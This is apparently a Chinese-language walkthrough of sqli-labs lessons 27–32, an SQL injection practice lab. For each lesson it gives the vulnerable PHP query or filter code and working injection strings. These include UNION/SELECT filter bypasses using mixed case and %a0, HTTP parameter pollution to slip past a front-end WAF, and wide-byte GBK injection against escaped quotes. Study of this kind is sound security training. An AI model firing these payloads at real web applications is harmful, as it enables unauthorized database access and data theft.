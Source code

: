 	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";</br>

	思路一：大小写绕过</br>
	?id=111%27%a0uNioN%a0sElEct%a01,version(),3%a0%27</br>
	思路二：报错或延时？

- **less 27a GET - Blind Based - All your UNION & SELECT Belong to us -Double Quotes**</br>
	1.?id=1%22%26%26%221=1 成功，猜测为“ "过滤</br>
	2.?id=111%22%a0uNioN%a0sElEct%a01,version(),3%a0%22成功注入</br>

- **less 28 GET - Error Based - All your UNION & SELECT Belong to us - String - Single Quotes with Parentesis**</br>
  	function blacklist($id)
  	{
  	$id= preg_replace('/[\/\*]/',"", $id);				//strip out /*
  	$id= preg_replace('/[--]/',"", $id);				//Strip out --.
  	$id= preg_replace('/[#]/',"", $id);					//Strip out #.
  	$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
  	$id= preg_replace('/select/m',"", $id);	   		 	Strip out spaces.
  	$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
  	$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out UNION & SELECT.
  	return $id;
  	}
	   $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
	?id=111%27)%a0uNioN%a0sElEct%a01,version(),3%a0||(%27

  - **less 28a GET - Error Based - All your UNION & SELECT Belong to us - String - Single Quotes - Parentesis**</br>
    	function blacklist($id)
    	{
    	$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out spaces.
    	return $id;
    	}
    	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
	?id=111%27)%a0uNioN%a0sElEct%a01,version(),3%a0||(%27   与less28相同

- **less 29 GET Error Based - IMPIDENCE MISMATCH - Having a WAF in Front of Web Application**</br>
服务器（两层架构）</br>
	当?id=1&id=2， apache（php）解析最后一个参数，即显示 id=2 的内容。Tomcat（jsp）解析第 一个参数，即显示 id=1 的内容</br>
	此处应该返回id=2 的内容，因为时间上提供服务的是 apache（php）服务器， 返回的数据也应该是 apache 处理的数据。 而在我们实际应用中， 也是有两层服务器的情况， 那为什么要这么做？是因为我们往往在 tomcat 服务器处做数据过滤和处理，功能类似为一 个 WAF。而正因为解析参数的不同，我们此处可以利用该原理绕过 WAF 的检测。该用法就 是 HPP（HTTP Parameter Pollution），http 参数污染攻击的一个应用。HPP 可对服务器和客 户端都能够造成一定的威胁。 </br>
	?id=1&id=-2%27union%20select%201,user(),version()%27</br>
	返回:</br>
  Your Login name:root@localhost</br>
	Your Password:5.7.23-0ubuntu0.16.04.1

- **less 30 GET Blind - IMPIDENCE MISMATCH - Having a WAF in Front of Web**</br>
	?id=1&id=-2%22union%20select%201,user(),version()%22

- **less 31 GET Blind - IMPIDENCE MISMATCH - Having a WAF in Front of Web** </br>
	?id=1&id=-2")union%20select%201,user(),version()%23

- **less 32 GET - Bypass Custom Filter Adding Slashes to Dangerous Chars**</br>
宽字节注入</br>
	原理：mysql 在使用 GBK 编码的时候，会认为两个字符为一个汉字，例如%aa%5c 就是一个 汉字（前一个 ascii 码大于 128 才能到汉字的范围）。我们在过滤 ’ 的时候，往往利用的思 路是将 ‘ 转换为 \’ （转换的函数或者思路会在每一关遇到的时候介绍）。 因此我们在此想办法将 ‘ 前面添加的 \ 除掉。</br>
  一般有两种思路： </br>
	1、%df 吃掉 \ 具体的原因是 urlencode(‘\) = %5c%27，我们在%5c%27 前面添加%df，形 成%df%5c%27， 而上面提到的 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字， 此 事%df%5c 就是一个汉字， %27 则作为一个单独的符号在外面， 同时也就达到了我们的目的。</br>
	2、将 \’ 中的 \ 过滤掉， 例如可以构造 %\**%5c%5c%27 的情况， 后面的%5c 会被前面的%5c 给注释掉。这也是 bypass 的一种方法。</br>

